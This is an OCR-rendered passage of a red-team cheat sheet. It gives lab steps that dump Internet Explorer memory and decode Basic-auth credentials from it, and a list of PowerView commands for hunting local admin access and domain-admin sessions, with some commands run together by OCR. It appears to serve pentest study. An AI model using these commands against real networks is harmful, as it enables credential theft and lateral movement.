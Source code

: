 Windows VM

1. Open Internet Explorer and browse to: http://[Kali VM IP Address]/x
2. Open command prompt and type: taskmgr

3. In Windows Task Manager, right-click on the “iexplore.exe” in the "Image Name" columnand select “Create Dump File” from the popup menu.

4. Copy the generated file, iexplore.DMP, to the Kali VM.

Kali VM

1. Place 'iexplore.DMP' on the desktop.

2. Open command prompt and type: strings /root/Desktop/iexplore.DMP | grep "Authorization: Basic"

3. Select the Copy the Base64 encoded string.
4. In command prompt type: echo -ne [Base64 String] | base64 -d
5. Notice the credentials in the output.

## 4. USER HUNTING

- Find all machines on the current domain where the current user has local admin access (Get-NetComputer + Invoke-CheckLocalAdminAccess)

Find-LocalAdminAccess  -Verbose

- Find Administrative access

. .\Find-PSRemotingLocalAdminAccess.ps1Find-PSRemotingLocalAdminAccess# No StatefulEnter-PSSession  -ComputerName targetcomputer.target.domain.local# Stateful$sess  =  New-Pssession  -ComputerName targetcomputer.target.domain.localEnter-Pssession  -session $sess

- If RPC and SMB are blocked check with WMI

. .\Find-WMILocalAdminAccess.ps1

- Find local admins on all machines of the domain (Get-NetComputer+Get- NetLocalGroup)

Invoke-EnumerateLocalAdmin  -Verbose

- Find computers where a domain admin (or specified user/group) has sessions

Invoke-UserHunterInvoke-UserHunter  -GroupName "RDPUsers"

- Confirm admin access

Invoke-UserHunter  -CheckAccess

- Find computers where a domain admin is logged-in ( Get-NetSession / Get-NetLoggedon )

Invoke-UserHunter  -Stealth

- WAIT FOR INCOMING SESSINON

Invoke-UserHunter  -ComputerName targetserver -Poll 100  -UserName Administrator -Delay 5  -Verbose

## 5. Account Hunting & Data Exfiltration

